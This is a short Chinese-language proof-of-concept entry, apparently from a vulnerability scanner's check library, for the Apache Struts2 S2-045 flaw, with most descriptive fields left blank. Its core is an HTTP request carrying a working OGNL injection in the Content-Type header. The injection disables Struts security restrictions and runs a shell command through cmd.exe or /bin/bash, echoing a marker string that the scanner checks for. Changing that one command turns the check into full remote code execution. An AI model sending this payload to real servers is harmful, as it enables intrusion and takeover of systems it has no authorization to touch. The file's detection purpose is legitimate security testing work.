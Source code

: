 ﻿# S2_045-3

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
POST / HTTP/1.1
Content-type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo 78468794903108696').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"]
```

> 响应代码特征：-1

> 响应内容特征：78468794903108696

> 上传文件定位：

> 验证文件来源：S2_045-3.poc
